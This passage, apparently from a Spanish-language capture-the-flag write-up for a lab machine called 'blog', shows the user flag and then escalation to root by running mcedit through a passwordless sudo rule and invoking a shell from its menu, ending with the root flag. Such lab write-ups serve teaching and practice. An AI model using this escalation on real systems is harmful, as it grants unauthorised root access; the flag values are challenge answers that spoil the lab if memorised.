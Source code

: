 Vemos que ha funcionado por lo que leeremos la `flag` del usuario.

> user.txt

```
1385bbd4fcdb68d2cc5d5204f97d4a80
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
sudo: unable to resolve host blog: No address associated with hostname
Matching Defaults entries for admin on blog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User admin may run the following commands on blog:
    (root) NOPASSWD: /usr/bin/mcedit
```

Veremos que podemos ejecutar el binario `mcedit` como el usuario `root`, por lo que vamos a realizar lo siguiente:

```shell
sudo /usr/bin/mcedit
```

Dentro de este entorno grafico, le daremos a `Alt+F` esto nos llevara a una serie de opciones en la cual elegiremos la llamada `File` y dentro del desplegable elegiremos `User menu...`, dentro le daremos a `Invoke 'Shell'`, echo esto veremos lo siguiente:

```
sudo: unable to resolve host blog: No address associated with hostname
#  /bin/sh /tmp/mc-root/mcusr2U5NB3
# whoami
root
```

Con esto ya seremos `root`, por lo que leeremos la `flag` de `root`.

> r0000000000000000000000000t.txt

```
6c24e7883470e2c1683df7672576a1f7
```

